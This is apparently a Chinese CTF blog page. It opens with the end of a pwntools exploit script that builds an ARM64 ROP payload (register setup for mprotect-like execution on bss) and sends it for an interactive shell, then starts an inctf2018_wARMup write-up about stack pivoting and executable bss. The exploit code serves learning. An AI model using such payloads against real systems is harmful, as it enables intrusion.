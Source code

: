```python
payload2+=p64(0)+p64(1) #x19 x20
payload2+=p64(bss_addr+0x100)+p64(7)#x21 x22  分别赋值给了x3 x2
payload2+=p64(0x1000)+p64(0x411000)#x23 x24  分别赋值给了x1 w0
payload2+=p64(0)+p64(bss_addr)#x29 x30
payload2+=p64(0)+p64(0)#x19 x20
payload2+=p64(0)+p64(0)#x21 x22
payload2+=p64(0)+p64(0)#x23 x24
pause()
p.sendline(payload2)
p.interactive()
```



# inctf2018_wARMup

## 总结:

通过这道题的学习与收获有：

1、arm架构（32位）的bss段是可执行的！

2、这道题考察的是栈迁移，以及通过调试来确定payload的布局。这道题是比较锻炼调试能力的（至少对于现在的我来说），锻炼调试能力，我指的是不看exp的情况下，自己做这道题...

3、现在也做了三道arm架构的题了，说实话和x86下的区别不大。只要熟悉x86的做题思路，做这种题，应该很快就能适应。

## 保护策略：

![image-20220411120556623](/upload/img/image-20220411120556623.png)


## 程序分析：

![image-20220411120602011](/upload/img/image-20220411120602011.png)
